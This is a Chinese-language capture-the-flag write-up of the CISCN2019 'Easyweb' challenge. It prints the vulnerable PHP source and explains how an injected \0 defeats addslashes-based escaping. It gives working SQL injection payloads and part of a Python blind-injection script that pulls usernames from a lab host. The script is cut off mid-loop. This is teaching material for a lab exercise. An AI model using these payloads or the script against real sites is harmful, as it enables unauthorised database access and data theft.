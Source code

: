 # [CISCN2019 总决赛 Day2 Web1]Easyweb
robots.txt 得到网站源码

```
<?php
include 'config.php';
$id=isset($_GET["id"])?$_GET["id"]:"1";
$path=isset($_GET["path"])?$_GET["path"]:"";

$id=addslashes($id);
$path=addslashes($path);
$id=str_replace(array("\\0","%00","\\'","'"),"",$id);
$path=str_replace(array("\\0","%00","\\'","'"),"",$path);

$result=mysqli_query($con,"select * from images where id='{$id}' or path='{$path}'");
$row=mysqli_fetch_array($result,MYSQLI_ASSOC);

$path="./" . $row["path"];
header("Content-Type: image/jpeg");
readfile($path);

?>
```

直接给payload:
```
?id=\0&path=or if(length(database())>1,1,-1)%23
?id=\0'&path=or 1=1%23
```

addslashes() 函数返回在预定义字符之前添加反斜杠的字符串。
```
单引号（'）
双引号（"）
反斜杠（\）
NULL
```
解释一下payload吧

?id=\0 经过 addslashes处理变为 `$id = \\0` 返回的是字符串，另外 `str_replace` 中的 `\\0`第一个斜杠其实是转义，真正去掉的是 `\0` 所以此时 `$id = \`

测试：

![](https://img-blog.csdnimg.cn/2cde8087971647ef90c2a866cc967ec4.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)
拼接到sql语句后成为
```
select * from images where id=' \' or path=' or if(length(database())>1,1,-1)%23'
```

可见原本的单引号被转义为字符了，所以单引号现在包裹的是 `\' or path=` 后面拼接 or 语句实现了sql注入

脚本：

```
import  requests

url = "http://d4035b3f-eaac-4675-8c17-e1de75f3d193.node3.buuoj.cn/image.php?id=\\0&path="
payload = "or id=if(ascii(substr((select username from users),{0},1))>{1},1,0)%23"
result = ""
for i in range(1,100):
    l = 1
    r = 130
    mid = (l + r)>>1
    while(l<r):
        payloads = payload.format(i,mid)
        print(url+payloads)
```